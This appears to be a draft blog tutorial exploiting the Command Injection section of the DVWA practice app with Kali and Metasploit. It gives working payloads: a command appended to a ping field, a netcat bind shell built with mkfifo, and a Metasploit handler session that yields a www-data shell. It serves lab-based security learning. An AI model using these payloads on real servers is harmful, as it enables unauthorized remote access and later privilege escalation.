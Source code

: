 ```yaml
---
layout: post
section-type: post
title: Exploiting Command Injection vulnerabilities
category: tech
tags: [ 'redteam', 'kali', 'dvwa', 'metasploit' ]
published: false
---
```

Command Injection is the manipulation of a vulnerable software in order to execute arbitrary commands on the host operating system.
Command Injections are possible when the application skips the input validation and uses it for executing a shell command on the host operating system.
in this post we'll get our hands on [DVWA]({% post_url 2017-04-02-dvwa-kali %})'s Command Injection section, and we'll open a backdoor on the server using [Metasploit](https://www.metasploit.com/).

Visit the *Command Injection* section of DVWA.

![ci-0](/img/posts/ci/ci-0.png)

The page says that it will ping an IP address for us, so let's see what will do for the IP *127.0.0.1*:

![ci-1](/img/posts/ci/ci-1.png)

Now, let's try to append a list bash command after our input IP address:

<pre><code data-trim class="bash">
127.0.0.1; ls
</code></pre>

![ci-2](/img/posts/ci/ci-2.png)

Sweet, DVWA simply appends our input to the underlying bash command!

Now, let's listen on port *4444* using netcat and redirect all the incoming bytes to a bash shell:

<pre><code data-trim class="bash">
127.0.0.1; mkfifo /tmp/pipe ; sh /tmp/pipe | nc -l -p 4444 > /tmp/pipe
</code></pre>

![ci-3](/img/posts/ci/ci-3.png)

As you will notice, the page is loading forever, which means that our backdoor is open and waiting for us... :smile:

Let's start msfconsole and open the shell on the server:

<pre><code data-trim class="bash">
⁠⁠⁠msfconsole
use exploit/multi/handler
set payload linux/x64/shell/bind_tcp
set RHOST 127.0.0.1
exploit
</code></pre>

![ci-4](/img/posts/ci/ci-4.png)

Note that we didn't set the LPORT of bind_tcp, since the default one is *4444*.

As you can see, we are the *www-data* user, and that's why we can't read the /etc/shadow file, which contains the user passwords of the operating system.
But, we have all the privileges that *www-data* user has and we can e.g. modify DVWA or escalate to root, by exploiting a local privilege escalation vulnerability.

Happy binding!
